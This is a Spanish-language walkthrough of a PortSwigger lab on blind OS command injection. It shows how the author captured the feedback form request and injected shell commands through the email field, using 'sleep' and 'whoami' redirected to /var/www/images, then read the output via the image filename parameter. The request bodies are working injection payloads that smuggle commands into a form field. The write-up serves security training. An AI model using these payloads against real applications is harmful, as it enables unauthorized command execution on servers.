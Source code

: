 ```yaml
---
title: "Blind OS command injection with output redirection"
description: "Laboratorio de Portswigger sobre OS Command Injection"
date: 2024-12-01 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - OS Command Injection
tags:
  - Portswigger Labs
  - OS Command Injection
  - Blind OS command injection with output redirection
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `Blind OS Command Injection` en la `función` de `comentarios`. La aplicación `ejecuta` un `comando` en la `terminal` que incluye `datos` proporcionados por el `usuario`. La `salida` del `comando` no se `devuelve` en la respuesta. Sin embargo, podemos usar la `redirección` de `salida` para capturarla. Existe una `carpeta` escribible en: `/var/www/images/`. La aplicación `sirve` las `imágenes` del catálogo de productos desde esta `ubicación`. Podemos `redireccionar` la `salida` del `comando` inyectado a un `archivo` en esta `carpeta` y luego usar la `URL` de `carga` de imágenes para `recuperar` el contenido del `archivo`. Para resolver el `laboratorio`, debemos ejecutar el comando `whoami` y `recuperar` su `salida`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/OS-Command-Injection-Lab-3/image_1.png)

Pulsamos en `Submit feedback` y vemos un `formulario`

![](/assets/img/OS-Command-Injection-Lab-3/image_2.png)

Hacemos `click` sobre `Submit feedback` y `capturamos` la `petición` con `Burpsuite`

![](/assets/img/OS-Command-Injection-Lab-3/image_3.png)

La `respuesta` obtenida son unas `llaves vacías {}`

![](/assets/img/OS-Command-Injection-Lab-3/image_4.png)

Si usamos este payload `|` en el campo email, en vez de `{}` en el `output` vemos un `mensaje` de `Could not save`

```
csrf=ZhcxbGtPNDRaQXlONDnnGJafoRTWN6uI&name=test&email=|test%40gmail.com&subject=test&message=test
```

Usando este `payload` se `ejecuta` el comando `sleep`

```
csrf=ZhcxbGtPNDRaQXlONDnnGJafoRTWN6uI&name=test&email=||sleep+10||&subject=test&message=test
```

Con este `payload` estamos `escribiendo` el `output` de nuestro `comando` en `/var/www/images`

```
csrf=ZhcxbGtPNDRaQXlONDnnGJafoRTWN6uI&name=test&email=||whoami+>+/var/www/images/output.txt||&subject=test&message=test
```

Si pulsamos `Ctrl + U` nos damos cuenta de que las `imágenes` están siendo `cargadas` a través de un `parámetro filename`

![](/assets/img/OS-Command-Injection-Lab-3/image_5.png)

Si accedemos a `https://0aa800dd041cfe318091ada900180005.web-security-academy.net/image?filename=output.txt` veremos el `output` de nuestro `comando`

![](/assets/img/OS-Command-Injection-Lab-3/image_6.png)
